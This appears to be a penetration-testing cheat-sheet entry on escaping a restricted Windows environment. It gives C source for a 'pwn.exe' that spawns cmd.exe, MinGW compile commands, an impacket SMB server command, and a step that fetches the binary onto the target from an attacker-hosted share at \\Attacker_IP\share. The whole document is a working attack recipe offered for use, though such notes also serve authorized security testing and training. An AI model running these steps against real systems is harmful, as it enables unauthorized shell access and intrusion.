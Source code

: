 # Indirect Shell: cmd.exe

Shell access can be gained in a restricted environment by hosting a binary in the local share and accessing it from the target.

1. Create `pwn.c` with following content

        #include <stdlib.h>
            int main() {
            system("C:\\Windows\\System32\\cmd.exe");
        }

2. Compile the C program to generate `pwn.exe`

        apt install mingw-w64
        x86_64-w64-mingw32-gcc pwn.c -o pwn.exe

3. Start an SMB server to serve the binary

        /usr/share/setoolkit/venv/bin/smbserver.py -smb2support share ./pwn/

4. Download the binary onto the target Windows server by accessing following path

        \\Attacker_IP\share
